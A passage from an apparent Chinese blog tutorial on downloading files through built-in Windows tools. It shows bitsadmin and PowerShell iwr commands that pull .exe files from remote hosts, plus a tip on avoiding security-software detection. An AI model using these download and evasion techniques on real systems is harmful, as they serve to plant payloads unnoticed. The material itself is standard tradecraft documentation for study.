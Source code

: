 ------------------------------------------------------



下载完成后



![](https://img-blog.csdnimg.cn/2019082216232646.png)



默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例



```
start bitsadmin /transfer test http://192.168.10.14/test.exe  f:\test.exe      
bitsadmin /setpriority test foreground     #设置任务test为最高优先级
```




![](https://img-blog.csdnimg.cn/20190820232515405.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------



相关文章：[使用bitsadmin.exe 下载文件,配合bcn.bat玩出更多的花样](https://www.cnblogs.com/gayhub/p/6517655.html "使用bitsadmin.exe 下载文件,配合bcn.bat玩出更多的花样")



### **iwr**



iwr是[PowerShell](https://so.csdn.net/so/search?q=PowerShell&spm=1001.2101.3001.7020)下的一款工具，所以我们如果在cmd下执行该命令的话，需要在前面加powershell命令，但是这会被安全软件检测到。所以建议在执行前，先进入powershell下



```
iwr -Uri http://www.test.com/vps.exe -OutFile vps.exe -UseBasicParsing
```




 ![](https://img-blog.csdnimg.cn/20191214233104233.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20191214233156915.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



Windows中查找文件

------------



查找C盘下名为abcd.txt的文件

